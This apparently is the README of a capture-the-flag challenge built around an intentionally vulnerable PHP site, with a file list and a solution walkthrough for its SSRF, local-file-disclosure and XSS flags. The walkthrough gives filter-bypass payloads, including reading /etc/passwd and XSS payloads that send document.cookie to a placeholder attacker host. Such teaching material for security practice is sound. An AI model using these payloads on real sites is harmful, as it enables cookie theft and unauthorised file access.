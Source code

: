 # Super Secure Resource Finder
Written in PHP, there are 3 challenges on this host
- SSRF (medium) 
- LFD (easy) 
- XSS (easy)

## files
- Dockerfile: 		for deployment, sets the LFD flag in container's /etc/passwd
- files/index.php: 	the "homepage" which is vulnerable to ssrf 
- files/index2.php: the index.php of the internal host (gives clues to players)
- files/admin.php: 	flag file on internal host
- files/flag.php: 	red herring 
- triggerxss.py: 	script/bot used to trigger XSS payloads, contains flag cookie
- 000-default.conf: edited version of sites-enabled file for Apache to support internal and external hosts
- chromedriver.zip: contains chromedriver binary because Docker ~is retarded~ doesn't support unzipping during buildtime but supports untar-ing
- solver.py: 		solver script, will be added later when I have time, checks challenge health and solvability 
  
## how2solve
**== SSRF FLAG ==**  
- using index.php try requesting some localhost stuff
- realise that its being filtered
- try using 0.0.0.0 instead
- the flag can be found at `0.0.0.0/admin.php`
  
**== LFD FLAG ==**     
- try the payload file:///etc/passwd
- the word "file" will get filtered out
- stack the payload ie. `fi(file)le:///etc/passwd`
- the flag can be found in /etc/passwd
  
**== XSS FLAG ==**  
- whenever localhost or 127.0.0.1 is used, an admin will be called to inspect the page
- simply XSS the cookie
- script is filtered out so either
	- stack the payload: `<scriscriptipt>` 
	- or just use `<img>` tags
	- or use `<sCrIpT>` it works 
- example payload:
	- (typed into submit form): `<img src=x onerror="document.location.replace('http://<YOURLOCATIONHERE>/?'+document.cookie)"><localhost>`
	- as GET request: `http://challenge.name/?page=%3CscrIpt%3Edocument.location.replace%28%27http%3A//%3C[YOURLOCATIONHERE]%3E/%3F%27%2Bdocument.cookie%29%3C/scRipT%3E%3Clocalhost%3E `

